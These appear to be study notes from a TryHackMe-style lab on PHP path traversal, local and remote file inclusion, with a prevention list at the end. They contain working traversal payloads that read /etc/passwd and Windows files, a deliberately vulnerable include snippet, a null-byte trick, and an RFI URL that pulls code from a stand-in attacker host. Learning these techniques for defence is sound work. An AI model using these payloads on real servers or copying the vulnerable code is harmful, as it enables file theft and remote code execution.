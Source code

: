 ```yaml
---
dg-publish: true
---
```







## ==Path Traversal==

- AKA, Directory Traversal a web security vulnerability allows an attacker to read operating system resources, such as local files on the server running an application.
- Path traversal vulnerabilities occur when the user's input is passed to a function such **==as file_get_contents in PHP.==**
- Path traversal attacks, also known as the dot-dot-slash attack, take advantage of moving the ==**directory one step up using the double dots ../.**==
- If the attacker finds the entry point, which in this case get.php?file=, then the attacker may send something as follows, [http://webapp.thm/get.php?file=../../../../etc/passwd](http://webapp.thm/get.php?file=../../../../etc/passwd)
- Each .. entry moves one directory until it reaches the root directory /. Then it changes the directory to **==/etc, and from there, it read the passwd file.==**

![Untitled 2.png|Untitled 2.png](/img/user/img/Untitled%202.png)

  

- For Windows directories :

[http://webapp.thm/get.php?file=../../../../boot.ini](http://webapp.thm/get.php?file=../../../../boot.ini) or

[http://webapp.thm/get.php?file=../../../../windows/win.ini](http://webapp.thm/get.php?file=../../../../windows/win.ini)

  

![Screenshot_2023-10-03_at_11.01.29_PM.png](/img/user/img/Screenshot_2023-10-03_at_11.01.29_PM.png)

## ==Local File Inclusion (LFI)==

- With PHP, using functions such as include, require, include_once, and require_once often contribute to vulnerable web applications.

```PHP
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```

- In the above code, the developer decided to use the include function to call PHP pages in the languages directory only via lang parameters.
    - If there is no input validation, the attacker can manipulate the URL by replacing the lang input with other ==**OS-sensitive files such as /etc/passwd.**==
    - The following will be the exploit :
    - http://webapp.thm/index.php?lang=../../../../etc/passwd

### ==Null Bytes==

- We can use the NULL BYTE, which is %00.
- By adding the Null Byte at the end of the payload, we tell the include function to ignore anything after the null byte which may look like :
    - include("languages/../../../../../etc/passwd%00").".php"); which equivalent to → include("languages/../../../../../etc/passwd");
- Deprecated after PHP 5.3.4.

![Untitled 1.png](/img/user/img/Untitled%201.png)

## ==Remote File Inclusion (RFI)==

- A technique to include remote files and into a vulnerable application. Like LFI, the RFI occurs when improperly ==**sanitizing user input, allowing an attacker to inject an external URL into include function.**==
    - One requirement for RFI is that the allow_url_fopen option needs to be on.

1. First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt.
2. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file.
3. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker.

## ==Prevention==

1. Keep system and services, including web application frameworks, ==**updated with the latest version.**==
2. **==Turn off PHP errors to avoid leaking the path==** of the application and other potentially revealing information.
3. A **==Web Application Firewall (WAF)==** is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them**==, such as allow_url_fopen on and allow_url_include.==**
5. Carefully analyze the web application and **==allow only protocols and PHP wrappers that are in need.==**
6. **==Never trust user input,==** and make sure to implement proper input validation against file inclusion.
7. Implement whitelisting for file names and locations as well as blacklisting.